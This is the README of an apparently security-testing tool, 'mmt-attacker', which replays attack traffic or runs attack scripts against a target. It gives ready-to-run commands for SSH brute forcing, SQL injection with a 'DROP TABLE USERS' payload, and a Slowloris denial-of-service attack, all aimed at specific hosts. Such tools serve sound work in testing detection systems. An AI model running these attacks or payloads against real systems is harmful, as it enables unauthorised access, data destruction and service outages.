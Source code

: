 # mmt-attacker

Generate attack traffics from a pcap file or by executing a script to a specific target

## Install

Install some dependencies

```sh
sudo apt-get install build-essential python-dev tcpreplay
```

```sh
pip3.10 install -r requirements.txt
pip3.10 install netifaces
pip3.10 install paramiko
pip3.10 install mechanize
```

## Config
Set permission for tcpreplay to access to the interface:

```sh
sudo setcap cap_net_raw=eip /usr/bin/tcprelay-edit
```

## Commands

```sh
cd mmt-attacker/
python  src/mmt-attack.py <attack_id> <argument-01> <argument-02> <argument-03>
```

## Examples

### SSH brute force attack
```sh
python3.8  src/mmt_attack.py ssh-bruteforce-attack 212.101.173.11 22 montimage "mmtbox","mmt2nm","montimage"
```

### SQL Injection attack

```sh
python3.10  src/mmt_attack.py sql-injection-attack https://www.montimage.com/contact data[name]
python3.10  src/mmt_attack.py sql-injection-attack https://www.montimage.com/contact data[name] \"\; DROP TABLE USERS\"
```

### Slowloris attack

```sh
python3.10 src/mmt_attack.py slowloris 217.70.184.55 -p 80 -s 100
```

### HTTP Version is not correct
```sh
python3.10  src/mmt_attack.py http-version-not-correct 192.168.64.5
```

## Add a new attack

Open and modify the [`src/attacks.json`](src/attacks.json) file with the required informations:
For a pcap based attack
```jsonc
  {
    "attackId":"pcap-attack-71", # Unique ID to identify the attack
    "attackName":"HTTP version is not correct", # Name of the attack - can be use to show on a dropdown menu
    "description":"Detect a request which has a HTTP version is not normal", # Description of the attack - describe what is the attack about, etc...
    "attackType": "pcap", # Type of the attack - support: pcap - attack based on a pcap file, script - attack by executing a script
    "pcapFileName":  "71.http_version.pcap", # pcap file name which contains the attack -> the pcap file must be placed in location: src/pcaps/
    "destIP": "192.168.56.1", # The destination of the attack (target IP) in the original pcap file (can be found by using Wireshark - or MMT security)
    "destPort": 80 # The target port of original pcap file
  }
```

For a script based attack
```jsonc
{
    "attackId":"script-attack-01",
    "attackName":"SSH BruteForce Attack",
    "description":"SSH BruteForce Attack",
    "attackType": "script",
    "scriptFileName":  "ssh-brute-force.py", # The script that will be execute to generate the attack - must be placed in location: src/scripts/
    "exeApp": "python3.10" # The execute application to launch the attack, depends on the script: python, node, or sh (shell),
    "extraParametersHelper": "<targetIP> <targetPort> <username> <password1[,password2,password3]>" # the helper to show to guide user how to use this attack
  }
```

## License

Montimage License

contact@montimage.com